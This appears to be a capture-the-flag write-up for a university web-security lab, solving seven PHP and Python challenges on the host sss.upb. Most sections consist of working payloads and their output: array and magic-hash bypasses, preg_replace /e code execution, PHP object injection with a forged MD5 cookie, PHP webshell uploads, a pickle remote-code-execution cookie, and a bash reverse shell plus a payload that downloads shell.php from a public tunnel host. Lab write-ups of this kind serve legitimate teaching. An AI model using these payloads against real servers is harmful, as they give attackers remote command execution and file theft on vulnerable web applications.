





# 08 Exotic Attacks
```bash
nvim /etc/hosts
```
```txt
141.85.224.102  sss.upb
```

# Breaking Hashes
Looking at the page source we find a note
```html
<!-- TODO: Remove source.phar -->
```

source.phar is not found, but while fuzzing for other extensions we find source.bak
```bash
ffuf -u http://sss.upb:8000/sourceFUZZ \
     -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-extensions.txt \
     -mc 200,204,301,302,307,401,403
```
```bash
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sss.upb:8000/sourceFUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-extensions.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.bak                    [Status: 200, Size: 327, Words: 30, Lines: 10, Duration: 1538ms]
:: Progress: [1290/1290] :: Job [1/1] :: 45 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

In order to get the flag we have to provide a username and password pair that produces the same SHA-256 hash, while ensuring the username is different from the password. Finding a SHA-256 collision is almost impossible
```php
<?php
if (isset($_POST['username']) && isset($_POST['password'])) {
	if ($_POST['username'] == $_POST['password']) {
		$error = 'Your password can not be your username!';
	} else if (hash('sha256', $_POST['username']) === hash('sha256', $_POST['password'])) {
		die($flag);
	} else {
		$error = 'Invalid credentials!';
	}
}
```

By submitting the parameters as arrays the hash() function returns NULL because it receives an invalid argument type
```http
POST / HTTP/1.1
Host: sss.upb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:151.0) Gecko/20100101 Firefox/151.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://sss.upb:8000
Connection: keep-alive
Referer: http://sss.upb:8000/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username[]=a&password[]=b&submit=Login
```

And get the flag along with some error messages
```bash
Warning: hash() expects parameter 2 to be string, array given in /var/www/html/index.php on line 10

Warning: hash() expects parameter 2 to be string, array given in /var/www/html/index.php on line 10

SSS{arr4ys_c4n_b3_n4sty_if_n0t_ch3ck3d}
```

# Pro Replacer
We submit some random values and observe how the URL changes to http://sss.upb:8001/?needle=a&replacement=b&haystack=a&submit=Replace. Also an error is shown
```txt
 Warning: preg_replace(): No ending delimiter '/' found in /var/www/html/index.php on line 8
```

Let's look at some example usages of preg_replace()
```php
<?php
$string = 'April 15, 2003';
$pattern = '/(\w+) (\d+), (\d+)/i';
$replacement = '${1}1,$3';
echo preg_replace($pattern, $replacement, $string);
?>
```

The error reveals that the application is passing our needle parameter directly to PHP's preg_replace() function as the regular expression pattern

Seems like it is doing regex replacement
```
needle = abc/
replacement = X
haystack = abcdefg

GET /?needle=abc/&replacement=X&haystack=abcdefg&submit=Replace HTTP/1.1

result: Xdefg
```

Older versions of PHP support the /e (evaluate) modifier for preg_replace(). When this modifier is appended to the regular expression, the replacement string is evaluated as PHP code instead of being treated as plain text

We can verify this by using the /e modifier and calling phpinfo():
```http
.*/e 
phpinfo()
test

GET /?needle=.*%2Fe&replacement=phpinfo%28%29&haystack=test&submit=Replace
```

From this point, we can call any PHP function. The system() function executes a command on the operating system and prints its output, allowing us to enumerate the server:
```http
GET /?needle=.*%2Fe&replacement=system('ls+/+-R')&haystack=test&submit=Replace 
```

We find the flag
```txt
/var/www/html:
index.php
wRtu3ND38n8RNgez
```

Finally we read the flag
```http
GET /?needle=.*%2Fe&replacement=system('cat+wRtu3ND38n8RNgez')&haystack=test&submit=Replace HTTP/1.1
SSS{st0p_3x3cut1ng_cmds_0n_my_s3rv3r}
```

# Todo App
The Todo App is vulnerable to XSS
```javascript
<script>alert("Hacked")</script>
```



In the open source license we find some interesting php functions
```php
<?php

Class GPLSourceBloater {
    public function __toString()
    {
        return highlight_file('license.txt', true) . highlight_file($this->source, true);
    }
}

if (isset($_GET['source'])){
    $s = new GPLSourceBloater();
    $s->source = __FILE__;

    echo $s;
    exit;
}

$todos = [];

if (isset($_COOKIE['todos'])) {
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);

    if(md5($m) === $h) {
        $todos = unserialize($m);
    }
}

if (isset($_POST['text']) && strlen($_POST['text']) > 1) {
    $todo = $_POST['text'];

    $todos[] = $todo;
    $m = serialize($todos);
    $h = md5($m);

    setcookie('todos', $h.$m);

    header('Location: ' . $_SERVER['REQUEST_URI']);
    exit;
}

?>
<html>
    <head>
        <title>TODO App</title>
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css">
    </head>
    <body>
        <div style="width: 30rem; margin: 40px auto;">
            <h1 class="mt-4 mb-4">TODO App</h1>
            <p>TODOs:</p>
            <ul>
                <?php foreach($todos as $todo): ?>
                    <li><?php echo $todo; ?></li>
                <?php endforeach;?>
            </ul>

            <form method="POST">
                <textarea name="text" class="form-control"></textarea>
                <input type="submit" value="Store" class="btn btn-primary mt-3">
            </form>
            <div style="position: fixed; bottom: 4px; right: 15px;">
                <p><a href="?source">Open source license</a></p>
            </div>
        </div>
    </body>
</html>
```

Normally, `$todos` is an array of strings:

```php
<?php
a:2:{
    i:0;s:5:"Task1";
    i:1;s:5:"Task2";
}
```

Instead of storing strings, we craft a serialized array whose first element is a `GPLSourceBloater` object:

```php
<?php
a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}
```

Breaking it down:

- `a:1` → an array containing one element.
- `i:0` → the first element has index `0`.
- `O:16:"GPLSourceBloater"` → an object of class `GPLSourceBloater`.
- `1` → the object contains one property.
- `s:6:"source"` → the property is named `source`.
- `s:8:"flag.php"` → the value of the property is `flag.php`.

When the cookie is unserialized, `$todos` becomes an array containing our object. Later, the application renders every todo item using:

```php
<?php foreach($todos as $todo): ?>
    <li><?php echo $todo; ?></li>
<?php endforeach; ?>
```

Since `$todo` is now a `GPLSourceBloater` object, `echo` automatically invokes its `__toString()` magic method:

```php
<?php
class GPLSourceBloater {
    public function __toString()
    {
        return highlight_file('license.txt', true)
             . highlight_file($this->source, true);
    }
}
```

Because we set the `source` property to `flag.php`, the application executes:

```php
<?php
highlight_file('flag.php', true);
```

revealing the contents of the file containing the flag.

Before the object is deserialized, the application verifies the integrity of the `todos` cookie:

```php
<?php
if (isset($_COOKIE['todos'])) {
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);

    if(md5($m) === $h) {
        $todos = unserialize($m);
    }
}
```

The first 32 characters of the cookie must be the MD5 hash of the serialized payload. Since the application uses a plain MD5 hash, we can generate a valid hash ourselves

We generate the final cookie value by prepending the MD5 hash to the serialized payload and URL-encoding the result:

```bash
php -r '
$m="a:1:{i:0;O:16:\"GPLSourceBloater\":1:{s:6:\"source\";s:8:\"flag.php\";}}";
echo urlencode(md5($m).$m);
'
```

This produces:

```text
760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

After replacing the `todos` cookie with this value and refreshing the page, the application displays the contents of `flag.php`, revealing the flag.



```txt
SSS{0bj3ct_1nj3ct10ns_ar3_pa1nfull}
```

# Meme uploader
We can upload memes, trying with a regulat jpg file works fine, now let's try with a php file
```php
<?php echo system("ls / -alR"); ?>
```

This works too 



Running gobuster helps us find the /uploads directory
```bash
gobuster dir -u http://sss.upb:8003 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50 -x txt,php,html,bak,zip,log -k
```
```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://141.85.224.102:8003
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              zip,log,txt,php,html,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 886]
uploads              (Status: 301) [Size: 325] [--> http://sss.upb/uploads/]
```

Going to http://sss.upb:8003/uploads/8776045f2e7874ebe20d1dfea50c9735.php reveals the flag location
```txt
/var/www/html:
total 28
drwxrwxrwx 1 www-data www-data 4096 Jul 16 08:34 .
drwxr-xr-x 1 root     root     4096 Dec 11  2020 ..
-rw-r--r-- 1 root     root       40 Jun 25 14:22 flag.txt
-rw-r--r-- 1 root     root     2125 Jun 25 14:22 index.php
drwxrwxrwx 1 root     root     4096 Jul 16 09:58 uploads
```

Now let's read it by repeating the steps with a new payload
```php
<?php echo system("cat /var/www/html/flag.txt"); ?>
```

```txt
SSS{at_l3ast_ch3ck_f0r_3xt3nsi0ns_n00b} 
```

# Handy Tools
It asks for his name, using iscusitul reveals a secret backup file




```php
<?php
class PHPClass {
    public $condition;
    public $prop;

    function __construct() { }

    function __wakeup() {
        $forbbiden_commands = ["..."];

        if (!isset($this->prop) or !isset($this->condition) or !$this->condition == true) {
            return;
        }

        foreach ($forbbiden_commands as $cmd) {
            if (strpos($this->prop, $cmd) !== false) {
                return;
            }
        }

        eval($this->prop);
    }
}
?>

<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css">
    </head>

    <body>
        <div>
            <div class="container">
                <div class="row">
                    <div class="bg-white p-5 mx-auto col-md-8 col-10">
                        <h3 class="display-3">Handy Tools<br></h3>
                        <form method="GET">
                            <div class="form-group">
                                <label>Select tool</label>
                                <select name="tool" class="form-control">
                                    <option value="toupper">To Upper Case</option>
                                    <option value="unserialize">Unserialize</option>
                                    <option value="trim">Trim whitespaces</option>
                                    <option value="manny">Guess my last name: Manny...</option>
                                </select>
                            </div>
                            <div class="form-group">
                                <label>Input</label>
                                <input name="input" type="text" class="form-control">
                                <small class="form-text text-muted"></small>
                            </div>
                            <?php
                                if (isset($_GET['tool']) && $_GET['tool'] == 'toupper') {
                                    echo var_dump(strtoupper($_GET['input']));
                                    echo "<br>"; echo "<br>"; echo "<br>";
                                } elseif (isset($_GET['tool']) && $_GET['tool'] == 'unserialize') {
                                    echo var_dump(unserialize($_GET['input']));
                                    echo "<br>"; echo "<br>"; echo "<br>";
                                } elseif (isset($_GET['tool']) && $_GET['tool'] == 'trim') {
                                    echo var_dump(str_replace(' ', '', $_GET['input']));
                                    echo "<br>"; echo "<br>"; echo "<br>";
                                } elseif (isset($_GET['tool']) && $_GET['tool'] == 'manny') {
                                    if (strtolower($_GET['input']) == 'iscusitul')
                                        echo "backup.zip";
                                    else
                                        echo "Wrong!";
                                    echo "<br>"; echo "<br>"; echo "<br>";
                                }
                            ?>
                            <input type="submit" class="btn btn-primary" name="submit" value="Submit" />
                        </form>
                    </div>
                </div>
            </div>
        </div>
    </body>
</html>

```

We need to use the unserialize function to our advantage

Created a reverse shell payload
```php
<?php
$ip = 'bore.pub';
$port = 33355;

$cmd = "bash -c 'exec bash -i &>/dev/tcp/$ip/$port <>&1'";
system($cmd);
?>
```

Generated the php payload and uploated it
```bash
cat now.php
<?php
$ngrok = "marshy-curve-ensnare.ngrok-free.dev";   // Your ngrok host (no https://)

class PHPClass {
    public $condition = true;
    public $prop;

    public function __construct($host) {
        // Download shell.php and save it to /var/www/html/shell.php
        // Split 'php' to bypass the blacklist
        $this->prop = "file_put_contents('/var/www/html/shell.ph' . 'p', file_get_contents('http://{$host}/shell.php'));";
    }
}

$obj = new PHPClass($ngrok);
$raw = serialize($obj);
$encoded = urlencode($raw);

echo "========== RAW (paste this into the Unserialize form) ==========\n";
echo $raw . "\n\n";
echo "========== URL-ENCODED (if you prefer) ==========\n";
echo $encoded . "\n";
?>

```

Started the listener, also used ngrok to make it publicly available, and got a request from the server
```bash
python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
127.0.0.1 - - [16/Jul/2026 21:41:56] "GET /shell.php HTTP/1.1" 200 -

```

Even though it got the file the revshell did not work so I switched to a simpler approach
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
} else {
    echo "Web shell ready. Use ?cmd=id";
}
?>
```


Now all I had to do is run commands with the cmd parameter
```bash
?cmd=find / -name flag.txt 2> /dev/null
/home/ctf/flag.txt
```

```bash
?cmd=cat /home/ctf/flag.txt
SSS{y0u_g0t_a_r3v3rs3_sh3ll_didnt_y0u_l1ttl3_pr1ck}
```

# Defaced Website
We see an image that does not exist in the page source
```html
	
```

Replacing the numbers with letter we get /defaced.png which works



Likely it looks like:
```php
<?php
require("flag.php");

$sec_pass = "0e413229387827631581229643338212";

if (isset($_POST['username']) && isset($_POST['password'])) {
    if (md5($_POST['password'] . $_POST['username']) == $sec_pass) {
        $message = $flag;
    } else {
        $error = "Invalid username/password!";
    }
}
?>
```

The application computes:
```
md5($password . $username)
```

It compares the result with
```
"0e413229387827631581229643338212"
```

using loose comparison (==), not strict comparison (===)

PHP performs type juggling with ==

Strings of the form
```
0e12345678901234567890
```

are interpreted as scientific notation:
```
0 × 10^12345678901234567890
```

which is simply the numeric value 0

Therefore,
```
"0e413229387827631581229643338212" == "0e462097431906509019562988736854"
```

Evaluates to
```
0 == 0
```
which is true

We have to find a combination of username + password whose hash starts with 0e, luckily we have a list of md5 magic hashes, https://github.com/spaze/hashes/blob/master/md5.md
```txt
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361
IHKFRNS:0e256160682445802696926137988570
GZECLQZ:0e537612333747236407713628225676
```

Using the first one we get the flag
```
password = 2406
username = 10708
```

```
SSS{th4nk_y0u_s0_much_f0r_g3tt1ng_my_w3bs1t3_b4ck_d4rl1ng}
```

# Pickle Jar
We find http://sss.upb:8007/jar and see that we have a pickles cookie with no value

Probably it's a hint that the website uses pickle to deserialize cookies

After changin its value we get this error, which confirms we are right
```
UnpicklingError

_pickle.UnpicklingError: invalid load key, '\xb5'.
```

Now lets try to run id
```python
import pickle
import subprocess
import base64

class RCE:
    def __reduce__(self):
        return (
            subprocess.check_output,
            (["id"],)
        )

payload = base64.b64encode(pickle.dumps(RCE())).decode()

print(payload)
```

But we are faced with TypeError: Object of type bytes is not JSON serializable. Lets make the payload a string

```python
import pickle
import base64
import builtins

class RCE:
    def __reduce__(self):
        return (
            builtins.eval,
            ("__import__('os').popen('id').read()",)
        )

payload = base64.b64encode(pickle.dumps(RCE())).decode()
print(payload)
```

After changing our cookie, it works and runs the command
```
"uid=0(root) gid=0(root) groups=0(root)\n"
```

Now we just have to find and read the flag

Find its path
```bash
find / -name flag.txt 2> /dev/null
"/home/ctf/flag.txt\n"
```

```bash
cat /home/ctf/flag.txt
"SSS{d0nt_3at_t00_m4ny_p1ckl3s}\n"
```
